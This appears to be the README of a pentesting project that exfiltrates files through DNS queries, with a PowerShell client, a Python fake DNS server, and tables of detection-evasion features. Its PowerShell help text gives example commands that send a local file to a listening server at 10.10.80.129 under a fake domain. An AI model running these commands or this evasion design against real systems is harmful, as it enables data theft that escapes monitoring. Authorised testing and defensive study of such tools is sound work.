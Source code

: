 # DNS Exfil Tools

Simple penetration testing tools to execute file exfiltration through DNS and avoid common detection methods.

> Modules caption: \
:heavy_check_mark: Available \
:large_blue_circle: Under development \
:white_circle: To be developed

<br>

## Client Exfiltration
Deploy these tools on the target machine to exfiltrate files through DNS requests.
I'm still developing the client side for more than one programming language, to provide more compatibility with the system you are testing.

| Language | Available | Compression | Encryption |
| ------ | ------ | ------ | ------ |
| python3      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark:  | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: |
| powershell   | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark:  | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: |
| python2      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle:      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |
| Compiled C++ | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle:      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |

<br>

### Powershell module
Use the cmdlet `Get-Help` to get execution informations. You can use `Get-Help -detailed` to print a decent overview. \
Here is an instance:
```
NAME
    C:\Users\User\Desktop\dnsexfil.ps1

SYNOPSIS
    Post-exploitation tool to execute DNS exfiltration to your pentesting machine

SYNTAX
    C:\Users\User\Desktop\dnsexfil.ps1 [-Server] <String> [-Domain] <String> [-File] <String> [[-Timeout] <Single>]
    [[-Length] <Int32>] [-Hash] [<CommonParameters>]


DESCRIPTION
    Post-exploitation tool to execute DNS exfiltration to your pentesting machine
    At leats three parameters are needed:
    - Specify DNS resolver as Server parameter
    - Specify filename
    - Specify the fake or legit domain you want to query
    The fakeDNS-server must be listening on your machine

PARAMETERS
    -Server <String>
        (Required) IP address of the listening DNS resolver

    -Domain <String>
        (Required) Fake or legit domain for DNS queries. Your fakeDNS-server will answer to both

    -File <String>
        (Required) Path to the file to exfiltrate through DNS queries

    -Timeout <Single>
        (Optional) Set a timeout between queries to slow down or speed up exfiltration. Default value is 2s

    -Length <Int32>
        (Optional) Set the third domain length. Default value is 16

    -Hash [<SwitchParameter>]
        (Optional) Include hash calculation in exfiltration for integrity purposes

    <CommonParameters>
        This cmdlet supports the common parameters: Verbose, Debug,
        ErrorAction, ErrorVariable, WarningAction, WarningVariable,
        OutBuffer, PipelineVariable, and OutVariable. For more information, see
        about_CommonParameters (https:/go.microsoft.com/fwlink/?LinkID=113216).

    -------------------------- EXAMPLE 1 --------------------------
    PS C:\>.\dnsexfil.ps1 -Server 10.10.80.129 -d fakedomain.com -File C:\Users\Name\file.txt

    Use 10.10.80.129 as the fakeDNS-server, and send the file C:\Users\Name\file.txt asking for resolution of [***].fakedomain.com:

    -------------------------- EXAMPLE 2 --------------------------
    PS C:\>.\dnsexfil.ps1 -Server 10.10.80.129 -d fakedomain.com -File C:\Users\Name\file.txt -Length 32 -Timeout 10 -Hash

    DNS queries will be like [32-long-chunk].fakedomain.com and will be going out every 10 seconds
```
<br>
---

### Features and @TODOs
| | |
| ------ | ------ | 
| :heavy_check_mark:  | Set timeout between DNS requests to slow down exfiltration and prevent detection |
| :heavy_check_mark:  | Set random timeout between requests to prevent periodically checks detection |
| :heavy_check_mark:  | Set fake domain or legit domain for DNS queries, the DNS server listening on your machine will respond to both |
| :heavy_check_mark:  | Set custom exfiltration third level domain chunks length |
| :heavy_check_mark:  | Send filename as first action |
| :hevay_check_mark:  | Optional: md5 file hash trasmission before file content for integrity checks|
| :large_blue_circle: | Optional: print server's response as record A resolution to verify queries |
| :large_blue_circle: | Optional: Compress files to exfiltrate to speed up the process |
| :white_circle:      | Optional: file encryption to prevent network sniffers to rebuild exfiltrated artifacts |
| :white_circle:      | Optional: Send multiple files at once |
| :white_circle:      | Optional: Send entire directory as compressed file |

<br>
<br>

## Fake DNS Server
Developed with Python3, the server module will provide a simple fake DNS server to get client's queries from your attacking machine, and responde with a spoofed IP of your choice (default is google.com's).

### Features and @TODOs
| | |
| ------ | ------ | 
| :heavy_check_mark:  | Set custom IP to spoof as record A response |
| :heavy_check_mark:  | Set custom domain for further automated file decode |
| :heavy_check_mark:  | Set custom UDP port for DNS service (default is 53) |
| :large_blue_circle: | Get filename from exfiltration first chunk |
| :large_blue_circle: | Optional: automated file decode/save |
| :large_blue_circle: | Compression receiving capabilities |
| :white_circle:      | Optional: file decryption and save |

<br>
<br>

## Use case
### Attacker side (fake DNS server)
![](https://raw.githubusercontent.com/synth3sis/DNSexfiltools/main/media/fakeDNS-server3.gif)
### Victim side (exfiltration tool)
![](https://raw.githubusercontent.com/synth3sis/DNSexfiltools/main/media/dnsexfil3.gif)
